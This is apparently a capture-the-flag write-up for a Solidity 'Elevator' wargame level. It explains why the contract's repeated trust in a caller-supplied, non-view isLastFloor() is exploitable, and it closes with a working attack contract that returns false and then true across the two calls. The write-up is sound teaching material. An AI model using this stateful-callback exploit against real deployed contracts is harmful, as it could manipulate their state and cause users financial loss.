

## Challenge
### Prompt
This elevator won't let you reach the top of your building. Right?
Things that might help:
- Sometimes solidity is not good at keeping promises.
- This Elevator expects to be used from a Building.
### Code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```
## Background

---

In Solidity, an external contract call is either a `high-level call` or a `low-level call`. This challenge uses a `high-level call`.
A `high-level call` is used when you know the ABI or function signature of the call target. Even without the full implementation code, as long as the interface matches, you can treat a given address as that interface type and call its functions as below.
```solidity
interface Target {
    function someFunction(uint256 value) external returns (bool);
}

Target(addr).someFunction(1);
```
An interface only fixes the shape of the function. It does not guarantee what the function returns, whether it changes internal state, or whether it returns the same value for the same input.

---

`msg.sender` is the address that directly called the current function. If an EOA calls `Elevator.goTo()` directly, `msg.sender` is the EOA; if an attack contract calls `Elevator.goTo()`, `msg.sender` becomes the attack contract's address.
```solidity
Building building = Building(msg.sender);
```
This code does not deploy a new `Building` contract. It interprets the `msg.sender` address as the `Building` interface type, meaning it will send an `isLastFloor(uint256)` call to that address.
If the attacker calls `goTo()` through an attack contract rather than directly, `Elevator` believes the attack contract is a `Building` and runs `isLastFloor()` on it.

---

`Elevator` expects `isLastFloor(_floor)` to return the same value for the same input. But `Building.isLastFloor` is not marked `view`.
```solidity
function isLastFloor(uint256) external returns (bool);
```
So the called contract can change its own state inside `isLastFloor()`. That allows an implementation that returns a different value depending on call order, such as `false` on the first call and `true` on the second.
## Analyzing the challenge code

---

First, the `Building` interface:
```solidity
interface Building {
    function isLastFloor(uint256) external returns (bool);
}
```
`Building` requires just one function, `isLastFloor(uint256)`. `Elevator` uses this interface to call `isLastFloor()` on `msg.sender`.
`Elevator` does not verify the actual implementation, so the call goes through for any `msg.sender` whose function signature matches, and the attack contract can play the `Building` role by implementing only `isLastFloor(uint256)`.

---

Next, `goTo()`.
```solidity
function goTo(uint256 _floor) public {
    Building building = Building(msg.sender);

    if (!building.isLastFloor(_floor)) {
        floor = _floor;
        top = building.isLastFloor(floor);
    }
}
```
The flow:
1. Cast `msg.sender` to `Building`.
2. Call `building.isLastFloor(_floor)`.
3. If the first call result is `false`, enter the `if` block.
4. Update `floor`.
5. Call `building.isLastFloor(floor)` again and store the result in `top`.

The problem is that steps 2 and 5 are calls to the same external contract. The external contract's code runs twice. If the external contract stores a call count, the return values of the two calls can differ.
We make the first call return `false` to enter the `if` block, and the second call return `true` to make `top` become `true`.

---

The state updates happen here.
```solidity
floor = _floor;
top = building.isLastFloor(floor);
```
`floor` and `top` are `Elevator`'s state variables. The state value changed inside the attack contract's `isLastFloor()` is stored in the attack contract's storage.
The attack contract changes its own state only to get a switch that produces different return values across the two `isLastFloor()` calls. The code that actually changes `Elevator.top` is `top = building.isLastFloor(floor);`.
## Solution
If we make the attack contract call `Elevator.goTo()`, then from `Elevator`'s point of view `msg.sender` becomes the attack contract's address. Then `Building(msg.sender).isLastFloor(...)` runs the attack contract's `isLastFloor()`.
The attack contract's `isLastFloor()` flips its internal `top` value each time and returns it. Setting the initial value to `true` makes the first call return `false` (entering the `if` block) and the second call return `true`, so `Elevator.top` becomes `true`.
`Elevator` trusts the value returned by the external contract twice. The attacker can be that external contract and make the same function return different values depending on the call order.
### Exploit
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Elevator{
    function goTo(uint) external;
}

contract Attack{
    Elevator elevator;
    bool public top = true;

    constructor(address _addr) {
        elevator = Elevator(_addr);
    }

    function isLastFloor(uint) public returns(bool) {
        top = !top;
        return top;
    }
    
    function attack() public {
        elevator.goTo(1);
    }
}
```

